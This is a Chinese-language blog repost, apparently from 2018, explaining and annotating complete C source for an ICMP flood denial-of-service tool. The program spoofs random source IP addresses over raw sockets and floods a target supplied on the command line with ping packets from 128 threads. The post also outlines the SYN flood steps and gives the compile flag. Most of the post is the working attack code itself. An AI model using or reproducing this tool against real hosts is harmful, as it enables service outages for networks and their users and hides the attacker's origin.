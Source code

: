 ```yaml
---
title: C语言实现ICMP Flood
date: 2018-09-28
tags: [C,网络]
---
```


内容: 非原创, 原作者写的很好, 转载

<!-- more -->

# 前言

**首先明确强调, 代码不是我写的, [出处是这里](https://blog.csdn.net/u014634338/article/details/49046071), 我只是阅读后觉得很好, 加上了自己的注释和解析**

我的注释以`/**/`形式出现

# 结构解析

ICMP Flood流程如下

1. 接收传参IP/端口, 检查合法性
2. 生成raw socket, 设置IP_HDRINCL选项允许自定义报文头部
3. 构造IP层内容/ICMP层内容(ICMP层的type置为ICMP_ECHO)
4. 计算IP层/ICMP层的checksum
5. 将IP层拼接ICMP层通过raw socket发送
6. 开多线程重复4/5步骤

对比下SYN Flood流程, 大同小异

1. 接收传参IP/端口, 检查合法性
2. 生成raw socket, 设置IP_HDRINCL选项允许自定义报文头部
3. 构造IP层内容/TCP层内容(TCP层的flag置为syn)
4. 计算IP层/TCP层的checksum(利用伪造的源IP来计算)
5. 将IP层拼接TCP层通过raw socket发送
6. 开多线程重复4/5步骤

# 代码

```c
//icmp攻击
//使用方式：./icmp ip(域名)
#include <stdio.h>
#include <ctype.h>
#include <unistd.h>
#include <fcntl.h>
#include <signal.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <errno.h>
#include <stdlib.h>
#include <time.h>
#include <pthread.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <string.h>
#include <syslog.h>
#include <arpa/inet.h>
#include <setjmp.h>
#include <errno.h>

//最多线程数
#define MAXCHILD 128
//目的IP地址
struct sockaddr_in dest;
//ICMP协议的值
static int PROTO_ICMP = -1;
//程序活动标志
static int alive = -1;
static int rawsock;

static void DoS_icmp (void )
{
    struct sockaddr_in to;
    struct ip *iph;
    struct icmp *icmph;
    char *packet;
    int pktsize = sizeof (struct ip) + sizeof (struct icmp) + 64;
    packet =(char *)malloc (pktsize);
    iph = (struct ip *) packet; //定位IP报头部
    icmph = (struct icmp *) (packet + sizeof (struct ip)); //定位上层协议位置（ICMP报文头部）
    memset (packet, 0, pktsize);
    
    //IP的版本,IPv4
    iph->ip_v = 4;
    //IP头部长度,字节数
    iph->ip_hl = 5;
    //服务类型
    iph->ip_tos = 0;
    //IP报文的总长度
    iph->ip_len = htons (pktsize);
    //标识,设置为PID
    iph->ip_id = htons (getpid ());
    //段的偏移地址
    iph->ip_off = 0;
    //TTL
    iph->ip_ttl = 255;
    //协议类型
    /* ICMP Flood的ICMP */
    iph->ip_p = PROTO_ICMP;
    //校验和,先填写为0
    iph->ip_sum = 0;
    
    //发送的源地址，随机创建
    iph->ip_src.s_addr =random();
    
    //发送目标地址
    iph->ip_dst = dest.sin_addr;
    
    
    //ICMP类型为回显请求
    /* ICMP Flood用的是ICMP_ECHO报文, 也就是发送ICMP_ECHO request包, 也就是ping包 */
    icmph->icmp_type = ICMP_ECHO;
    //代码为0
    icmph->icmp_code = 0;
    //由于数据部分为0,并且代码为0,直接对不为0即icmp_type部分计算
    icmph->icmp_cksum = htons (~(ICMP_ECHO << 8));
    //填写发送目的地址部分
    to.sin_family =  AF_INET;
    to.sin_addr = dest.sin_addr;
    to.sin_port = htons(0);
    //发送数据
    sendto (rawsock, packet, pktsize, 0, (struct sockaddr *) &to, sizeof (struct sockaddr));
    //放内存
    free (packet);
}

void *DoS_fun (void * ip)
{
    while(alive)
    {
        DoS_icmp();
        
    }
    return NULL;
}

//信号处理函数,设置退出变量alive
void DoS_sig(int signo)
{
    alive = 0;
}

int main(int argc, char *argv[])
{
    struct hostent * host = NULL;
    struct protoent *protocol = NULL;
    char protoname[]= "icmp";   //协议名字
    int i = 0;
    pthread_t pthread[MAXCHILD]; //线程标志数组
    int err = -1;
    socklen_t on=1;
    alive = 1;
    
    //截取信号CTRL+C
    signal(SIGINT, DoS_sig);   //设置信号处理函数

    // 参数是否数量正确
    if(argc < 2)
    {
        printf("usage : \n");
        return -1;
    }

    // 获取协议类型ICMP
    /* 返回一个结构体, 包含协议的名字,编号等, 能完整标示一个协议的东西 */
    protocol = getprotobyname(protoname);  //获取指定协议的信息
    if (protocol == NULL)
    {
        perror("getprotobyname()");
        return -1;
    }
    /* ICMP协议在所有协议中的编号 */
    PROTO_ICMP = protocol->p_proto;     //ICMP协议的值
    //输入的目的地址为字符串IP地址
    /* 点分十进制转长整型 */
    dest.sin_addr.s_addr = inet_addr(argv[1]);
    /* 检验IP合法性 */
    if(dest.sin_addr.s_addr == INADDR_NONE)
    {
        //为DNS地址
        /* 是域名的话解析域名, 拿到ip, 后面用 */
        host = gethostbyname(argv[1]);
        if(host == NULL)
        {
            perror("gethostbyname");
            return -1;
            
        }
        char str[30];
        // printf("host:%s\n",inet_ntop(host->h_addrtype,host->h_addr,str,30));
        //  dest.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        inet_aton(inet_ntop(host->h_addrtype,host->h_addr,str,30),&(dest.sin_addr));
    }
    //printf("dst ip: %s\n", inet_ntoa(dest.sin_addr));
    
    // 建立原始socket
    /* SYN Flood中是IPPROTO_TCP */
    rawsock = socket (AF_INET, SOCK_RAW, PROTO_ICMP);
    if (rawsock < 0)
    {
        perror("socket error");
        exit(1);
    }
    
    // 设置IP选项，自己构建IP报头部
    setsockopt (rawsock,IPPROTO_IP, IP_HDRINCL, &on, sizeof(on));
    //建立多个线程协同工作
    for(i=0; i<MAXCHILD; i++)
    {
        err = pthread_create(&pthread[i], NULL, DoS_fun, (void *)&i);
    }
    //等待线程结束
    for(i=0; i<MAXCHILD; i++)
        pthread_join(pthread[i], NULL);
    
    printf("over \n");
    close(rawsock);
    return 0;
}
```

编译记得加`-lpthread`

# 参考资料

[原作者](https://blog.csdn.net/u014634338/article/details/49046071)

[这里的解析很结构化, 很详细](https://www.cnblogs.com/skyfsm/p/6395953.html)

[Linux网络编程---ICMP协议分析及ping程序实现](https://blog.csdn.net/u014634338/article/details/48951345)